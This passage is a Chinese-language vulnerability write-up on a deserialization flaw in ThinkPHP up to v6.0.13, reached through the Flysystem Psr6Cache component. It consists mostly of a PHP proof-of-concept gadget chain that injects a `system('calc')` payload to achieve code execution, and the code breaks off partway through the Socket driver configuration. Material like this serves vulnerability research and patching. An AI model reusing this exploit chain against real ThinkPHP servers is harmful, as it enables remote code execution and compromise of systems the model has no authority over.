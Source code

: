 ### 影响版本：Thinkphp <= v6.0.13

### 介绍：

攻击者可以通过组件 League\\Flysystem\\Cached\\Storage\\Psr6Cache 包含反序列化漏洞，目前的 Thinkphp6.1.0 以上已经将 filesystem 移除了 因为此处存在好多条反序列化漏洞  
安装和前一篇文章一样，这里为了方便就用上一篇文章的 6.0.12 了

### poc:

```plain
<?php

namespace League\Flysystem\Cached\Storage{

    class Psr6Cache{
        private $pool;
        protected $autosave = false;
        public function __construct($exp){
            $this->pool = $exp;
        }
    }
}

namespace think\log{
    class Channel{
        protected $logger;
        protected $lazy = true;

        public function __construct($exp){
            $this->logger = $exp;
            $this->lazy = false;
        }
    }
}

namespace think{
    class Request{
        protected $url;
        public function __construct(){
            $this->url = '<?php system(\'calc\'); exit(); ?>';
        }
    }
    class App{
        protected $instances = [];
        public function __construct(){
            $this->instances = ['think\Request'=>new Request()];
        }
    }
}

namespace think\view\driver{
    class Php{}
}

namespace think\log\driver{

    class Socket{
        protected $config = [];
        protected $app;
        public function __construct(){

            $this->config = [
```